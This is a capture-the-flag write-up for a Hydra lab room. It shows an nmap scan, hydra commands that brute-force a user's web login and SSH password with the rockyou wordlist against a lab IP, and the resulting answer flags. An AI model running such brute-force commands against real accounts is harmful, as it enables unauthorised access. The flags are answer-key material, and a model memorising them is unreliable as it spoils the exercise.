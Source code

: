 # Hydra 

### [Task 2] 

#####  1. Use Hydra to bruteforce molly's web password. What is flag 1?

* Scan open ports
```nmap -sV -sS 10.10.166.155```

![nmap-scan](https://user-images.githubusercontent.com/62840507/128612421-d85ea0f6-64de-454c-ac84-dfb749fe4fa8.png)

* There is a website on port 80. Let's take a look at it. 

![Ekran Görüntüsü (2)](https://user-images.githubusercontent.com/62840507/128612567-faacea6f-38fc-46ab-9c91-991377fbd9d8.png)

* According ot the question the user name is molly and we now need to find her password with hydra.

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V ```

![image](https://user-images.githubusercontent.com/62840507/128612618-53e8b508-20c2-47ac-80ea-1dfd8084c80b.png)


Login with these credentials and you will find the flag.

**Flag1 :** THM{2673a7dd116de68e85c48ec0b1f2612e}


##### 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* We need SSH password. Command I used

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 ssh -t 4 ```

![image](https://user-images.githubusercontent.com/62840507/128612950-a4045c04-23ef-437c-8866-7140512b8bdb.png)


* Now that we have the SSH password, we can login in with those credentials.

```ssh molly@10.10.166.155```

![image](https://user-images.githubusercontent.com/62840507/128613063-397a5fde-6554-4a2c-9513-37d0569b3948.png)


**Flag2 :** THM{c8eeb0468febbadea859baeb33b2541b}


